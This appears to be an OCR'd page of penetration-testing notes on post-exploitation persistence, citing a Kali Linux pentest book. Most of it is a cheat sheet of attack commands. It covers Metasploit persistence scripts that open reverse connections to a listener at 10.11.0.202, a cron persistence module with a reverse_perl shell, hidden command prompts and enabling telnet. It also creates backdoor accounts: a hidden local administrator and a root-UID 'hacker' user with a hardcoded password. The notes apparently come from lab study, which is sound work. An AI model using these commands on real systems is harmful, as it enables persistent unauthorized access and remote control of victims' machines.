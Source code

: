 


### Windows exploitation tools



## Persistance

### Windows Persistance

Persistance for windows

1.	run persistence -U -i 5 -p 443 -r 10.11.0.202

2.	run persistence -U -i 5 -p 666 -r 10.11.0.202

3.	set  LPORT 443

4.	exploit

or

•	create users and hide them

•	create backdoors in dll files

•	create a command hidden promt

MSF> execute -H -f cmd -i

•	Create a service account

net user Service_Account password /ADD

net localgroup administrators Service_Account /ADD

•	enable telnet service

meterpreter> run gettelnet -e

### VNC INJECT

Meterpreter VNCINJECT module

#### Linux Persistance

1.	persistance for linux
2.	use exploit/linux/local/cron_persistence
3.	set session 1
4.	set payload cmd/unix/reverse_perl
5.	set LHOST 10.11.0.202
6.	set LPORT 444
7.	run

useradd -o -u 0 hacker  -G root  -d /home/hacker -p P@ssw0rd123!  -m

#### NETCAT AS PERSISTANCE

REF: Mastering Kali Linux for Advanced penetration testing
